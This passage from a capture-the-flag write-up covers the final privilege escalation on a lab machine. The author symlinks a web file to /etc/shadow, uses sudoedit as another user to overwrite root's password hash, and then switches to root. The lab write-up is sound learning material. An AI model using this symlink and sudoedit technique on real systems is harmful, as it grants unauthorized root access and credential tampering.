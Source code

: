 Switching back to `www-data`, we create a symbolic link, `/var/www/html/test2/config.php`, that links to `/etc/shadow`.
```console
www-data@year-of-the-pig:/var/www/html$ mkdir test2
mkdir test2
www-data@year-of-the-pig:/var/www/html$ cd test2
cd test2
www-data@year-of-the-pig:/var/www/html/test2$ ln -s /etc/shadow config.php
ln -s /etc/shadow config.php
```
And as `curtis`, we edit the symbolic link we just created and modify the password hash of root to the hash of a known password. We used `mkpasswd` to generate the hash.
```console
curtis@year-of-the-pig:/var/www/html$ sudoedit /var/www/html/test2/./config.php
```

And now we can change ourselves to `root` using our password. The last flag is in `root`'s home directory.
```console
curtis@year-of-the-pig:/var/www/html$ su root
Password: 
root@year-of-the-pig:/var/www/html# whoami
root
root@year-of-the-pig:/var/www/html# cd /root
root@year-of-the-pig:~# ls -la
total 36
drwx------  5 root root 4096 Aug 22  2020 .
drwxr-xr-x 22 root root 4096 Aug 16  2020 ..
lrwxrwxrwx  1 root root    9 Aug 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug 16  2020 .cache
drwx------  3 root root 4096 Aug 16  2020 .gnupg
drwxr-xr-x  3 root root 4096 Aug 21  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   38 Aug 22  2020 root.txt
-rw-r--r--  1 root root   42 Aug 16  2020 .vimrc
```